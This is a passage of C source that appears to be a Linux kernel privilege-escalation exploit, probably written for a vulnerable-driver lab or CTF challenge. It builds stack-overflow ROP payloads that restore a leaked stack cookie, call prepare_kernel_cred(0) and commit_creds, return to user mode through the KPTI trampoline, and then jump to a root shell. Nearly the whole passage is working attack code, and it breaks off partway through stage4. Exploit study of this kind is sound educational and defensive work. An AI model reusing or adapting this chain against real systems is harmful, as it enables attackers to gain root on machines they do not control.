     payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rdi_pop_rbx_ret;
    payload[cookie_off++] = (uint64_t) 0; // RDI, initialize argument for prepare_kernel_cred
    payload[cookie_off++] = (uint64_t) 0; // RBX

    payload[cookie_off++] = (uint64_t) prepare_kernel_cred; // prepare_kernel_cred(0)

    payload[cookie_off++] = (uint64_t) swapgs_restore_regs_and_return_to_usermode + 22; // The KPTI trampoline
    payload[cookie_off++] = (uint64_t) 0; // dummy rax
    payload[cookie_off++] = (uint64_t) 0; // dummy rdi

    payload[cookie_off++] = (uint64_t) return_prepare_kernel_cred;  // return after prepare_kernel_cred(0)

    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;

    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");

}

void return_prepare_kernel_cred(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp, rax;"
        ".att_syntax;"
    );
    creds_struct = tmp;
    printf("[+] returned creds_struct 0x%lx\n", creds_struct);
    stage4();
}

/*
Stage4 executes commit_creds on the returned creds struct of stage3.
After that, we jump to a shell.
*/

void shell();

void stage4(){
    uint8_t sz = 50;
    uint64_t payload[sz];
    uint64_t cookie_off = 16;

    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rdi_pop_rbx_ret;
    payload[cookie_off++] = (uint64_t) creds_struct; // RDI, argument for commit_creds
    payload[cookie_off++] = (uint64_t) 0; // RBX

    payload[cookie_off++] = (uint64_t) commit_creds; // commit_creds(prepare_kernel_cred(0))

    payload[cookie_off++] = (uint64_t) swapgs_restore_regs_and_return_to_usermode + 22; // The KPTI trampoline
    payload[cookie_off++] = (uint64_t) 0; // dummy rax
    payload[cookie_off++] = (uint64_t) 0; // dummy rdi

    payload[cookie_off++] = (uint64_t) shell;  // return after we have elevated permissions

    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;
